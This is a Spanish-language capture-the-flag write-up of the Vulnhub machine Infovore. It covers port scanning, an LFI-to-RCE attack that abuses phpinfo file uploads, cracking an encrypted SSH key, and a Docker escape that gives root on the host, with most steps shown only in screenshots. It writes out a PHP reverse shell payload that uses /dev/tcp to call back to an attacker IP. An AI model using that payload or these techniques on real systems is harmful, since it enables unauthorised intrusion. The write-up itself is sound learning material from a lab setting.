 ```yaml
---
author: Helder
title: Vulnhub - Infovore
tags : [Linux,phpinfo]
categories: [Vulnhub,Eazy]
date: 2023-10-15 11:33:00 +0800
mermaid: true
---
```

Description: This is an easy to intermediate box that shows you how you can exploit innocent looking php functions and lazy sys admins.
There are 4 flags in total to be found, and you will have to think outside the box and try alternative ways to achieve your goal of capturing all flags.

Máquina [**Infovore**](https://www.vulnhub.com/entry/infovore-1,496/)

---
## Reconocimiento
- [ ] Identificamos el Target y escaneamos los puertos abiertos.

![arp](https://helhat.github.io/assets/img/Infovore/arp.png){: .normal }
![scan](https://helhat.github.io/assets/img/Infovore/scan1.png){: .normal }

- [ ] Realizamos el escaneo de los principales scripts y versiones de nmap.

![scan2](https://helhat.github.io/assets/img/Infovore/scan2.png){: .normal }

De esta manera empezaremos buscando las principales tecnologias web.

![what](https://helhat.github.io/assets/img/Infovore/what.png){: .normal }
![include](https://helhat.github.io/assets/img/Infovore/include.png){: .normal }

Realizaremos un fuzzing, pero no tenemos éxito.

![fuzz](https://helhat.github.io/assets/img/Infovore/fuzz1.png){: .normal }

- [ ] Analizamos con wig

![wig](https://helhat.github.io/assets/img/Infovore/wig.png){: .normal }

## Enumeración

De esta manera ingresamos a la ruta. Revisaremos por funciones deshabilitados y file_upload.

![info](https://helhat.github.io/assets/img/Infovore/info.png){: .normal }
![file](https://helhat.github.io/assets/img/Infovore/file.png){: .normal }

Entonces verificamos que esta pagina interpretaría cualquier función en php, ademas de un posible file_uploads activado, pero para esto debemos saber donde subir el archivo.

## Explotación

- [ ] LFI2RCE
Simulamos una File Upload boundary
De esta manera tenemos una respuesta exitosa, donde se crea el archivo mencionado y se carga en la ruta temporal que se muestra en la Respuesta.

![burp](https://helhat.github.io/assets/img/Infovore/burp.png){: .normal }

Entonces para poder ingresar un archivo que haga un RCE, primero debemos identificar la ruta donde introducirlo.

- [ ] Encontrar un LFI, fuzzeando parámetro 
Normalmente en una web, la pagina principal suele ser un recurso index. , como tecnologia usa php, entonces tendra como recurso: 

![index](https://helhat.github.io/assets/img/Infovore/index.png){: .normal }

Entonces, para aplicar un LFI , debemos encontrar aquel parámetro que nos permita buscar la ruta donde aplicar el RCE.
Para ello realizamos un fuzzeo a este parámetro mencionado. Para el primer fuzzing, detectamos respuestas con 136L

![fuzz2](https://helhat.github.io/assets/img/Infovore/fuzz2.png){: .normal }

Filtramos por ello y realizamos nuevamente el fuzzing, imaginando que deseamos acceder a /etc/passwd.

![fuzz3](https://helhat.github.io/assets/img/Infovore/fuzz3.png){: .normal }
![filename](https://helhat.github.io/assets/img/Infovore/filename.png){: .normal }
![LFI](https://helhat.github.io/assets/img/Infovore/LFI.png){: .normal }

- [ ] Script modificamos los campos.

![script](https://helhat.github.io/assets/img/Infovore/script.png){: .normal }

```
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.65.139/443 0>&1'");?>
```
Cambiamos la ruta del método POST y GET . Además cambiamos los *[tmp_name]* , que es el resultado del Response en burpsuite.

![burp2](https://helhat.github.io/assets/img/Infovore/burp2.png){: .normal }
![tmp](https://helhat.github.io/assets/img/Infovore/tmp.png){: .normal }

De esta manera:

![exploit](https://helhat.github.io/assets/img/Infovore/exploit.png){: .normal }
![exploit2](https://helhat.github.io/assets/img/Infovore/exploit2.png){: .normal }

- [ ] Ejecutamos python2.7
![[IMAGES/Infovore/RCE.png]]
![RCE](https://helhat.github.io/assets/img/Infovore/RCE.png){: .normal }

Tendremos en cuenta que es un Docker, ya que no es la IP de la PC auditada.
![[IMAGES/Infovore/access.png]]
![access](https://helhat.github.io/assets/img/Infovore/access.png){: .normal }

---
## Persistencia
- [ ] Enumeración manual o LinPEAS

![enum](https://helhat.github.io/assets/img/Infovore/enum.png){: .normal }

Buscando elementos importantes y permisos, encontramos un archivo con un nombre que suponemos tiene keys ssh

![key](https://helhat.github.io/assets/img/Infovore/key.png){: .normal }

- [ ] Verificar Segmento IP
- [ ] Comprobar port 22 expuesto

![port](https://helhat.github.io/assets/img/Infovore/port.png){: .normal }
![copy](https://helhat.github.io/assets/img/Infovore/copy.png){: .normal }
![permi](https://helhat.github.io/assets/img/Infovore/permi.png){: .normal }

Nos copiamos el archivo a un archivo que tengamos permisos /tmp y verificamos que tipo de comprimido es.

```
file .olkeys.tgz
```

![descom](https://helhat.github.io/assets/img/Infovore/descom.png){: .normal }
Tenemos 2 llaves, utilizaremos la privada.

- [ ] Crackear key encriptada

![crack](https://helhat.github.io/assets/img/Infovore/crack.png){: .normal }

- [ ] Reutilizamos esta passwd

![root](https://helhat.github.io/assets/img/Infovore/root.png){: .normal }

- [ ] Flag para root

![flag](https://helhat.github.io/assets/img/Infovore/flag.png){: .normal }

- [ ] Escapamos del contenedor
Pero como ya sabemos estamos dentro de un contenedor, por que estamos bajo un segmento de Red diferente.
De esta manera si buscamos escapar de este, pero no encontramos ningún deamon de docker. Pero en la misma carpeta root, encontramos Keys ssh , en la cual vemos una conexion con un usuario admin, con un segmento de Red que pertenece a la Maquina host.

![key2](https://helhat.github.io/assets/img/Infovore/key2.png){: .normal }

Entonces nos conectamos por ssh, de igual manera aprovechamos la hash crackeada anteriormente para ingresar

![port2](https://helhat.github.io/assets/img/Infovore/port2.png){: .normal }

- [ ] Utilizamos la imagen para desplegar una montura

![flag2](https://helhat.github.io/assets/img/Infovore/flag2.png){: .normal }
![docker](https://helhat.github.io/assets/img/Infovore/docker.png){: .normal }

De esta manera utilizaremos la imagen de este Docker para crear una montura de la carpeta /root de la Maquina Host real.

![mont](https://helhat.github.io/assets/img/Infovore/mont.png){: .normal }
![mont2](https://helhat.github.io/assets/img/Infovore/mont2.png){: .normal }

- [ ] Ejecutar contenedor

![ejec](https://helhat.github.io/assets/img/Infovore/ejec.png){: .normal }
![root2](https://helhat.github.io/assets/img/Infovore/root2.png){: .normal }
![flag3](https://helhat.github.io/assets/img/Infovore/flag3.png){: .normal }

- [ ] Asignar Suid bash
Pero de igual manera, lo anterior es util para un CTF, que ta si queremos realmente acceso como root de la Maquina host?

![bash](https://helhat.github.io/assets/img/Infovore/bash.png){: .normal }

- [ ] You are Root

![root3](https://helhat.github.io/assets/img/Infovore/root3.png){: .normal }

